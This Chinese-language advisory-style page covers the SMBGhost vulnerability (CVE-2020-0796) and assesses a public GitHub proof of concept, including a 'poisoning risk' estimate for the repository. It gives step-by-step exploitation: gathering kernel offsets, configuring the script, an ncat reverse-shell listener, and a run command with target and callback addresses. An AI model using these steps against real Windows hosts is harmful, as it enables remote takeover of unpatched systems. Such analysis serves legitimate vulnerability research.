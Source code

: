 ## CVE-2020-0796-SMBGhost-远程代码执行

**漏洞编号:** CVE-2020-0796

**漏洞类型:** 远程代码执行

**影响应用:** Microsoft Windows SMBv3

**危害等级:** 高危，可能导致远程代码执行，完全控制受影响系统

**影响版本:** Windows 10 Version 1903/1909, Windows Server, version 1903/1909 (Server Core installation)

**利用条件:** 目标系统开启SMB服务，且未安装相应的安全补丁。需要能够与目标系统的445端口建立连接。

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2020-0796，又名SMBGhost，是一个存在于Microsoft Server Message Block 3.1.1 (SMBv3) 协议中的远程代码执行漏洞。该漏洞是由于SMBv3处理特定请求的方式不当引起的。攻击者可以通过发送特制的SMBv3数据包到易受攻击的SMBv3服务器来利用此漏洞，成功利用可能允许未经身份验证的攻击者在目标系统上执行任意代码。

**有效性：**
根据漏洞库信息和搜索结果，该漏洞是真实存在的，并且存在公开可用的PoC代码。多个安全厂商和机构已经确认了该漏洞的存在和危害。
提供的PoC代码（`SMBleedingGhost.py`和相关文件）旨在利用CVE-2020-0796实现远程代码执行。根据`README.md`的描述，该PoC的预期结果是在目标系统上获得反向shell。

**投毒风险：**
分析PoC代码可以发现，该代码需要用户手动运行`calc_target_offsets.bat`脚本以获取目标系统的内存偏移地址，然后手动将这些偏移量配置到`SMBleedingGhost.py`中。此外，还需要用户自行搭建ncat监听端口。
因此，投毒风险较低。虽然PoC本身的代码可以被修改以包含恶意代码，但由于存在用户参与和配置的步骤，增加了投毒的难度，也更容易被发现。同时作者明确声明了免责声明，代码仅用于学习和测试。
根据代码分析与常规开源项目，投毒可能性为10%。

**利用方式：**
1.  **环境准备：** 攻击者需要安装Python和ncat。
2.  **获取偏移：** 在目标系统上运行`calc_target_offsets.bat`，获取`srvnet!SrvNetWskConnDispatch`, `srvnet!imp_IoSizeofWorkItem`, `srvnet!imp_RtlCopyUnicodeString`, `nt!IoSizeofWorkItem` 和 `nt!MiGetPteAddress` 的内存偏移地址。
3.  **配置PoC：** 将获取的偏移地址更新到`SMBleedingGhost.py`文件的`OFFSETS`变量中。
4.  **监听端口：** 使用ncat监听指定端口，例如`ncat -lvp 4444`。
5.  **运行PoC：** 运行`SMBleedingGhost.py <target_ip> <reverse_shell_ip> <reverse_shell_port>`，其中`<target_ip>`是目标系统的IP地址，`<reverse_shell_ip>`是攻击者监听的IP地址，`<reverse_shell_port>`是攻击者监听的端口。
6.  **获取Shell：** 如果漏洞利用成功，ncat会接收到来自目标系统的反向shell，从而允许攻击者在目标系统上执行任意命令。

总而言之，该漏洞利用涉及 SMBv3 协议处理压缩数据包时存在的缓冲区溢出。攻击者通过精心构造恶意的 SMBv3 请求，触发缓冲区溢出，覆盖内存中的关键数据，最终实现远程代码执行。该漏洞是“wormable”的，这意味着它有可能在网络上自我传播。

**项目地址:** [monjheta/CVE-2020-0796](https://github.com/monjheta/CVE-2020-0796)

**漏洞详情:** [CVE-2020-0796](https://nvd.nist.gov/vuln/detail/CVE-2020-0796)